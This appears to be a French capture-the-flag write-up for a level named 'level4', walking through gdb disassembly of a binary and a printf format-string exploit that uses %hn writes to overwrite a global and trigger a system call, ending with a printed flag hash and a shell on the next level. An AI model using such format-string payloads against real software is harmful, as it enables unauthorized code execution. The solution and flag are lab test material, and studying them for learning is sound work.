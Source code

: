 # Level4

On observe un executable a la racine `level4`

```bash
$ ./level4
Hello World
Hello World
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level4 -q
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) set disassembl
disassemble-next-line  disassembly-flavor
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218
   0x08048460 <+9>:     mov    eax,ds:0x8049804
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:    lea    eax,[ebp-0x208]
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    eax,[ebp-0x208]
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
   0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level4`

```bash
$ scp -P 4242 -r level4@192.168.56.102:/home/user/level4/level4 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level4
```

_resultat sauvegarde dans [source.md](source.md)_

Meme exercice que le `level3` mais cette fois `m` est compare avec `0x1025544` et printf est dans une function

Dans un premier temps, on essaye d'afficher notre `AAAA` grace au `%x` de printf en modifiant la value `i` dans `%i$x`.

On obtient `i = 12`

```bash
$ python -c 'print "AAAA %12$x"' | ./level4
AAAA 41414141
```

On remplace `AAAA` par l'adresse de `m` et on verifie

```bash
$ python -c 'print "\x10\x98\x04\x08 %12$.8x"' | ./level4
 08049810
```

plus qu'a changer la valeur de `m` grace au `%n` de printf mais `0x1025544` est trop gros pour le faire en une fois.
Nous allons donc ecrire `0x102` sur 2octets et `0x5544` 2 octets plus loin pour former notre nombre final

```bash
$ python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"' | ./level4
...
                                               -1073743996
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

level4:$ su level5
Password:

level5:$
```
